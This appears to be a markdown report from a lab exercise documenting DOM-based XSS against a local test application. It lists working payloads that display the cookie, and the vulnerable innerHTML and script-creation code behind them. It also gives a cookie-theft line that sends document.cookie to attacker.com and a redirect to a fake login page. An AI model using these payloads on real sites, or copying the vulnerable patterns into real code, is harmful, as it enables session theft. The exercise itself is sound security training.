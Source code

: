 # xss payloads documentation

## vulnerability analysis

**target application**: `http://localhost:8000/`

**vulnerability type**: dom-based xss

**attack vector**: form input field with insufficient sanitization

## successful payloads

### 1. direct DOM Manipulation

**payload**: `document.getElementById('cookieOutput').innerHTML = 'Cookie value: '+document.cookie`

**payload**: `alert(document.cookie)`

**injection point**: text input field

**execution context**: script element creation

**result**: successfully displays cookie content "Cookie value: ftcookies=if_you_see_me_its_win"

### 2. direct javascript execution

**payload**: `alert(document.cookie)`

**injection point**: text input field

**execution context**: script element creation

**result**: open a popup and successfully displays cookie content "ftcookies=if_you_see_me_its_win"

### 3. event handler exploitation

**payload**: `<img src=x onerror=alert(document.cookie)>`

**injection point**: text input field via innerhtml

**execution context**: image load error event

**result**: open a popup and successfully displays cookie content "ftcookies=if_you_see_me_its_win"

### 5. input focus-based payload

**payload**: `<input onfocus=alert(document.cookie) autofocus>`

**injection point**: text input field via innerhtml

**execution context**: automatic focus event

**result**: create a input text that display a popup and successfully display cookie content "ftcookies=if_you_see_me_its_win"

## technical analysis

### root cause

the application contains two critical vulnerabilities:

   1 - **unsafe innerhtml usage**:

```javascript
   document.getelementbyid("output").innerhtml = "<b>" + userinput + "</b>";
```

   allows html/javascript injection through dom manipulation.

   2 - **direct script element creation**:

```javascript
   var script = document.createelement("script");
   script.textcontent = userinput;
   document.body.appendchild(script);
```

   directly executes user input as javascript code.

### attack scenarios

#### scenario 1: cookie theft

- **payload**: `fetch('http://attacker.com/steal?cookie=' + document.cookie)`
- **impact**: exfiltrates session cookies to external server
- **risk level**: critical

#### scenario 2: session hijacking

- **payload**: `window.location='http://attacker.com/login?redirect=' + document.url`
- **impact**: redirects user to malicious login page
- **risk level**: high

## testing environment

- **browser**: [firefox v140.0.2]
- **date**: [06/08/2025]
- **tester**: [Daniel Trigo - dande-je]
